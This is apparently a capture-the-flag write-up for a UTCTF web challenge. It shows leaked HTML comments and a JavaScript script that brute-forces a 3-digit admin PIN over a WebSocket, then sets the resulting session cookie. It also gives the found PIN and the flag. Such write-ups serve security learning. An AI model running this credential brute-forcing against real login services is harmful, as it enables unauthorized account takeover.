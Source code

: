 #### Challenge:

Can you hack my website? `http://web1.utctf.live:8651`

---

#### Solution:

- inspecting the page reveals login page `http://web1.utctf.live:8651/internal/login` and `admin` username
```html
<!--
TODO: this button is set to the wrong URL and for some reason only the 'admin' account can change it. Tom is the only one who knows the passcode and he's out until Wednesday. I'm not paid enough to deal with this so it's just going to be broken for now. It's not like we get traffic anyway 😠 
-->
```
- inspecting `login` page then reveals that `admin` uses 3 digit pin that can be easily brute-forced
```html
<!--
what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack 
-->
```

```js
async function brutePass() {
    for (let i = 0; i <= 9; i++) {
        for (let o = 0; o <= 9; o++) {
            for (let p = 0; p <= 9; p++) {
                if (await checkPassword0("admin", `${i}${o}${p}`)) {
                    return;
                }
            }
        }
    }
}

function checkPassword0(user, pass) {
    return new Promise(resolve => {
        const socket = new WebSocket("ws://web1.utctf.live:8651/internal/ws")
        socket.addEventListener('message', (event) => {
            if (event.data == "begin") {
                socket.send("begin");
                socket.send("user " + user)
                socket.send("pass " + pass)
                console.log("testing", user, pass);
            } else if (event.data == "baduser") {
                console.warn("Unknown user");
                socket.close()
                resolve(false);
            } else if (event.data == "badpass") {
                console.warn("Incorrect PIN");
                socket.close()
                resolve(false);
            } else if (event.data.startsWith("session ")) {
                document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
                socket.send("goodbye")
                socket.close()
                console.warn("Sucess", user, pass, document.cookie); // admin:907
                resolve(true);
            } else {
                console.warn("Unknown error");
                socket.close()
                resolve(false);
            }
        })
    })
}
```

---

<details><summary>FLAG:</summary>

```
utflag{w3bsock3ts}
```

</details>
<br/>
